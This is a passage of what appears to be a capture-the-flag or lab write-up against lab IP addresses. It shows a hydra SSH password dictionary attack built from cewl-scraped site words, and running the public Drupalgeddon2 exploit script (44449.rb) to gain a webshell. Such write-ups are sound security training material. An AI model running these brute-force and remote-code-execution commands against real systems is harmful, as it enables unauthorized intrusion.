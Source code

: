 <u>Request metadata:</u>

![](/assets/img/Pasted image 20230429144422.png)

	- Another Initial Access approach: Extract/scrape the keywords on the website http://<targetIP>:1898 using the tool 'cewl'. After scraping the text from the website, use hydra and use these keywords as a wordlist for the password dictionary attack.

<u>Command:</u>

```bash
hydra -l tiago -P pass.txt 10.201.10.117 ssh -t 4
```

	Breakdown:
	- "pass.txt" : is the scraped words from the website. 


# Exploitation -> High level breakdown of the **Drupalgeddon2** RCE exploit:

- Trying to execute this exploit using the provided tutorial on how to use:

<u>Command:</u>

```bash
ruby 44449.rb http://10.201.10.112
```

![](/assets/img/Pasted image 20230429144616.png)

<u>Executing it:</u>

![](/assets/img/Pasted image 20230429144702.png)

- Because of the error, we just install a new gem for Ruby because the `highline` gem is missing:

```bash
gem install highline
```

![](/assets/img/Pasted image 20230429144735.png)

# Executing the exploit again:

<u>Command</u>:

```bash
ruby 44449.rb http://10.201.10.112
```

<u>Result:</u>

![](/assets/img/Pasted image 20230429144822.png)

	- Got the webshell! 
	- Note that the webshell does not allow you to BREAK OUT of the /www/var/html directory.

